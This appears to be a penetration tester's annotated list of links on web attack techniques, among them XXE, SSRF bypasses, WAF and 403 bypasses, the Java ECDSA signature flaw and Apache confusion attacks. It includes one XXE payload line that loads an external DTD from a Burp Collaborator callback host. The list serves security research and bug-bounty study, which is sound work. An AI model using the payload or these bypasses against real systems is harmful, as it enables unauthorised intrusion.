 https://phonexicum.github.io/infosec/xxe.html
<br># Information Security PENTEST XXE
<br>```<!DOCTYPE foo SYSTEM "http://xpto.burpcollaborator.net/xpto.dtd">```

https://github.com/GoSecure/dtd-finder
<br># Identify DTDs on filesystem snapshot and build XXE payloads using those local DTDs.

https://www.blackhat.com/us-17/briefings.html#a-new-era-of-ssrf-exploiting-url-parser-in-trending-programming-languages
<br># We propose a new exploit technique that brings a whole-new attack surface to bypass SSRF (Server Side Request Forgery) protections.
<br>https://github.com/orangetw/Tiny-URL-Fuzzer/blob/master/samples.txt

### Bypass
https://blog.ryanjarv.sh/2022/03/16/bypassing-wafs-with-alternate-domain-routing.html
<br># Bypassing CDN WAF’s with Alternate Domain Routing

https://bishopfox.com/blog/json-interoperability-vulnerabilities
<br># The same JSON document can be parsed with different values across microservices, leading to a variety of potential security risks.

https://github.com/filedescriptor/Unicode-Mapping-on-Domain-names
<br># Browsers support internetionalized domains, but some Unicode characters are converted into English letters and symbols. This may be useful to make very short domains or bypass SSRF protection.

https://neilmadden.blog/2022/04/19/psychic-signatures-in-java/
<br># It’s hard to overstate the severity of this bug. If you are using ECDSA signatures for any of these security mechanisms, then an attacker can trivially and completely bypass them if your server is running any Java 15, 16, 17, or 18 version before the April 2022 Critical Patch Update (CPU). For context, almost all WebAuthn/FIDO devices in the real world (including Yubikeys) use ECDSA signatures and many OIDC providers use ECDSA-signed JWTs.

https://h.43z.one/ipconverter/
<br># Convert IP address to different formats for bypass.

https://github.com/aufzayed/bugbounty/tree/main/403-bypass
<br># Common 403 bypass.

https://rafa.hashnode.dev/exploiting-http-parsers-inconsistencies
<br># In this research, my focus revolves around the discovery of inconsistencies within HTTP parsers across various web technologies, including load balancers, reverse proxies, web servers, and caching servers.

https://soroush.me/blog/2023/08/cookieless-duodrop-iis-auth-bypass-app-pool-privesc-in-asp-net-framework-cve-2023-36899/
<br># The cookieless feature of .NET Framework could be abused to access protected directories or those blocked by URL filters in IIS.

https://github.com/assetnote/nowafpls
<br># nowafpls is a simple Burp plugin which will contextually insert this junk data into your HTTP request inside the repeater tab. You can select from a preset amount of junk data you want inserted, or you can insert an arbitrary amount of junk data by selecting the "Custom" option. This tool is just 80 or so lines of Python, it's incredibly simple but works for most WAFs lol.

https://blog.orange.tw/2024/08/confusion-attacks-en.html
<br># This article explores architectural issues within the Apache HTTP Server, highlighting several technical debts within Httpd, including 3 types of Confusion Attacks, 9 new vulnerabilities, 20 exploitation techniques, and over 30 case studies.
